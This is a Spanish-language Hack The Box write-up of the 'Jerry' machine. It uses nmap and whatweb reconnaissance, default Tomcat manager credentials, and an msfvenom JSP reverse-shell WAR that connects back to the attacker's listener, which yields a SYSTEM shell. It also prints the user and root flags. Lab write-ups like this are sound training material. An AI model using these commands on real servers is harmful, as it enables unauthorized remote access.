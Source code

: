 ```yaml
---
layout: single
title: Jerry - Hack The Box
excerpt: "Esta máquina es bastante facililla. Vamos a explotar un Tomcat aprovechandonos de un upload de la página, aunque primero necesitaremos credenciales válidas. Asá que vamos a ello."
date: 2021-09-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-Jerry/Jerry_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
   - hackthebox
   - infosec
tags:
    - linux
    - tomcat
    - file upload
    - web loger
    - revershell
---
```


![](/assets/images/htb-writeup-Jerry/Jerry_logo.png)

# Reconocimiento

Primero vamos a comenzar realizando, como siempre, un reconocimiento de puertos por el protocolo **TCP** , y el output lo redirigiremos al archivo `allPorts`.

```bash

h3g0c1v@kali:~/htb/jerry$ nmap --min-rate 5000 -p- --open -vvv -n -Pn -oG allPorts 10.10.10.95

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:43 CEST
Initiating SYN Stealth Scan at 20:43
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 20:44, 26.36s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.041s latency).
Scanned at 2021-09-15 20:43:54 CEST for 26s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

```

Vemos que solo tiene un puerto abierto, que es el puerto 8080.

Pues vamos a detectar la versión y servicio que corren para ese puerto.

```bash

nmap -sC -sV -p8080 10.10.10.95
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:49 CEST
Nmap scan report for 10.10.10.95
Host is up (0.040s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

```

Muy bien, nos reporta un poco más de informacion. Aun asi, veamos que nos dice el **whatweb** .

```bash

h3g0c1v@kali:~/htb/jerry$ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]

```
# Consiguiendo Acceso a la Máquina

Bien, veamos que contiene ese servidor Tomcat.

![](/assets/images/htb-writeup-Jerry/Tomcat_page.png)

Y nos aparece lo siguiente. Puedo probar a ver si tiene un **panel login** la pagina web. La ruta en la que normalmente está almacenado el panel login en Tomcat es `/manager/html`, asi que vamos a probar.

![](/assets/images/htb-writeup-Jerry/tomcat_page.png)

Vamos a probar con las credenciales típicas de **admin** , **admin**. ¡Y vemos las credenciales! ¡Por que sí! Que raro es esto, pero la hemos encontrado.

![](/assets/images/htb-writeup-Jerry/credentials.png)

Bueno pues nos **logeamos** con las credenciales y vemos lo siguiente.

![](/assets/images/htb-writeup-Jerry/dentro_tomcat.png)

Por abajo veo que hay un **upload** de archivos `.war` por lo que voy a intentar meter una revershell, para intentar ganar acceso al sistema.

Y para ello utilizaremos **msfvenom** , e utilizar la reveshell hecha en **java** llamada `java/jsp_shell_reverse_tcp`.

```bash

h3g0c1v@kali:~/htb/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > revershell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

```

Ahora metemos el archivo `.war` en la pagina web, para que se nos cree otro módulo.

![](/assets/images/htb-writeup-Jerry/revershell.png)

Y una vez metido el archivo en la máquina, nos ponemos en escucha por el puerto **443** , para ver si es vulnerable.

```bash

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>


```
# Visualizando las Flags

¡Y si! Es vulnerable. Hemos ganado acceso al sistema, incluso lo hemos hecho como `nt authority\system`.

```bash

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```

En este punto ya hemos comprometido la máquina y podemos ver las flags de **user.txt** y **root.txt** .

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

```
